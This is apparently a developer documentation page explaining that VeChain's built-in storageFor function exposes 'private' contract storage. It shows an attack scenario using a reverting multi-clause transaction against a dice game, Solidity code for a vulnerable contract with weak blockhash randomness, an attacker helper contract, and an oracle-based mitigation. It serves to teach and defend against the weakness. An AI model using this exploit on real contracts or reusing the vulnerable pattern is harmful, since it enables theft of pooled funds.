

import { Callout } from 'nextra/components'

# Private Data Leakage due BuiltIn-Storage-Access

As Ethereum developer `private` and `internal` variables are expected to be private within contracts. On vechain a public storage allows contracts to access all state variables of each other, there is no private storage.

## Ethereums State Variable Visibility

> **internal**  
> Internal state variables can only be accessed from within the contract they are defined in and in derived contracts. They cannot be accessed externally. This is the default visibility level for state variables.

> **private**  
> Private state variables are like internal ones but they are not visible in derived contracts.

This definition applies for on-chain access. Due the public nature of Blockchain access to the raw data is possible from outside. Every variable is stored in a way that its storage location can be calculated and accessed.

<Callout type="info">
Solidity-by-example explains this as potential vulnerability on Ethereum here:\
[https://solidity-by-example.org/hacks/accessing-private-data/](https://solidity-by-example.org/hacks/accessing-private-data/)
</Callout>

## Vechain Prototypes storageFor

<Callout type="warning">
Vechain uses a custom prototype for all accounts that adds functionality:\
[https://github.com/vechain/thor/blob/master/builtin/gen/prototype.sol](https://github.com/vechain/thor/blob/master/builtin/gen/prototype.sol)
</Callout>

`storageFor` provides raw access to storage of all accounts/contracts. `internal` or `private` definitions are not respected due direct storage access without going thru the contracts code.

Given that situation the modified definition of internal and private read:

> **internal**  
> Internal state variables can not be access public interfaces to the contract they are defined in and in derived contracts. They can be accessed externally using storage access. This is the default visibility level for state variables.

> **private**  
> Private state variables are like internal ones but they are not visible in derived contracts. They can be accessed externally using storage access.

## Vulnerability Scenario

Given there is a contract that accepts payments to roll a dice. The result is a random calculation within the contract. If the user guesses the correct side in advance the pool of money is sent as prize. If failed, the prize pool grows.

Technically the result of the dice roll is stored in a private variable. In a second transaction the prize can be claimed.

Given a bad actor creates a custom contract that checks a private variable for an indicating of a win. If it does not indicate a win, it reverts. Then the following scenario can happen:

```gherkin
Given a bad actor sends a transaction with two clauses  
When the first clause (play) rolls the dice and loses  
Then the second clause (check) reverts the whole transaction  
```

This can be repeated until it results in a win.

**Example vulnerable pseudo-contract:**

```solidity filename="dice.sol"
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Dice {
    uint256 private totalClaimableFunds;
    mapping(address => uint256) private claimableFunds;
		
    function roll(uint256 guess) public payable {
        uint256 rolled = randomNumber(6);
        if (rolled == guess) {
	    claimableFunds[msg.sender] = address(this).balance - totalClaimableFunds;
            totalClaimableFunds += claimableFunds[msg.sender];
        }
    }

    function claim() external {
        uint256 amount = claimableFunds[msg.sender];
        totalClaimableFunds -= amount;
	claimableFunds[msg.sender] = 0;
        payable(msg.sender).transfer(amount);
    }

    function randomNumber(uint256 number) internal view returns (uint256) {
        return (uint256(blockhash(block.number - 1)) % number) + 1;
    }
}
```

```solidity filename="attack.sol"
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

interface IPrototype {
        function storageFor(address _self, bytes32 _key)
             external 
             view 
             returns(bytes32);
}

contract Mimisbrunnr {

    address private constant PROTOTYPE = 0x000000000000000000000050726f746F74797065;

    function getStorage(address _address, bytes32 slot) 
        internal 
        view 
        returns(bytes32) {
            return IPrototype(PROTOTYPE).storageFor(_address, slot);
    }

    function getMap(address _address, uint256 position, address key) 
        public 
        view 
        returns(bytes32) {
            bytes32 slot = keccak256(abi.encode(key, position));
            return getStorage(_address, slot);
    }
}
```

## Potential Solution

### Oracles to remove processing indications

Calculations can be moved away from the Blockchain to prevent any indication of the results.

* The input emits an Event that is listened by an external party.
* An external party triggers another transaction that generates processing.



The disadvantage of this are two transactions and an external party:

1. Twice VTHO costs
2. Double the processing time
3. Increased complexity to a contract due implementing a pending & processing status
4. An external service monitoring for events with ability to execute transactions

## Links

* [Multi-Task Transactions](https://docs.vechain.org/thor/learn/transaction-model.html#clauses)
* [Contract Visibility and Getters](https://docs.soliditylang.org/en/latest/contracts.html#visibility-and-getters)